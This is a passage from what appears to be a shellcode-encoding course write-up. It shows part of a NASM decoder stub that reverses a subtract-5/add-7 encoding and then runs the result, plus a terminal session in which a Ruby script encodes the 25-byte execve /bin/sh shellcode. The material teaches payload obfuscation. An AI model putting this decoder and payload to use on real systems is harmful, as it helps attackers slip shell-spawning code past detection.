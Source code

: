 ```nasm
  sub bl, al            ;subtracting the current value in BL by 5 and placing that value into BL
  mov byte [esi], bl    ;replacing the current byte at the memory location pointed to by ESI with the decoded byte
  inc esi               ;shifting to the next byte
  loop sub_decoder_loop ;loop 10 times

  xor ecx, ecx  ;clearing out ecx
  mov cl, dl    ;moving the length of EncodedShellcode into CL
  sub cl, 10    ;subtracting the length of EncodedShellcode in CL by 10 as we have already decoded 10 bytes
  add al, 2     ;adding 2 to AL. 7 is the addition value.

add_decoder_loop:
  xor ebx, ebx          ;clearing out ebx
  mov bl, byte [edi]    ;taking the current byte in EncodedShellcode and placing it into BL. EDI starts at +10.
  add bl, al            ;adding the current value in BL by 7 and placing that value into BL
  mov byte [edi], bl    ;replacing the current byte at the memory location pointed to by EDI with the decoded byte
  inc edi               ;shifting to the next byte
  loop add_decoder_loop ;loop until CL has been met

  jmp short EncodedShellcode ;pass execution to the decoded shellcode

encoded_shellcode:
  call decode
  EncodedShellcode: db 0xe5,0x16,0x86,0xbe,0xe7,0xe7,0xab,0xbe,0xbe,0xe7,0x88,0xb1,0xb4,0x51,0xf,0x9a,0x51,0x8,0x9f,0x51,0x9,0x7a,0xd7,0x15,0xaa
  EncodedShellcodeLen equ $-EncodedShellcode
```
The decoder can be found <a href="https://github.com/skahwah/slae/blob/master/assignment4/decode.nasm">here</a>.


### Encoding
```shell
20:10 skawa@skawa-mbp: assignment4 $ cat encode.rb | grep x31
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
20:10 skawa@skawa-mbp: assignment4 $ ruby encode.rb
[+] C hex format:
"\xe5\x16\x86\xbe\xe7\xe7\xab\xbe\xbe\xe7\x88\xb1\xb4\x51\xf\x9a\x51\x8\x9f\x51\x9\x7a\xd7\x15\xaa";

[+] nasm hex format:
0xe5,0x16,0x86,0xbe,0xe7,0xe7,0xab,0xbe,0xbe,0xe7,0x88,0xb1,0xb4,0x51,0xf,0x9a,0x51,0x8,0x9f,0x51,0x9,0x7a,0xd7,0x15,0xaa

[+] Total length: 25
20:10 skawa@skawa-mbp: assignment4 $
```
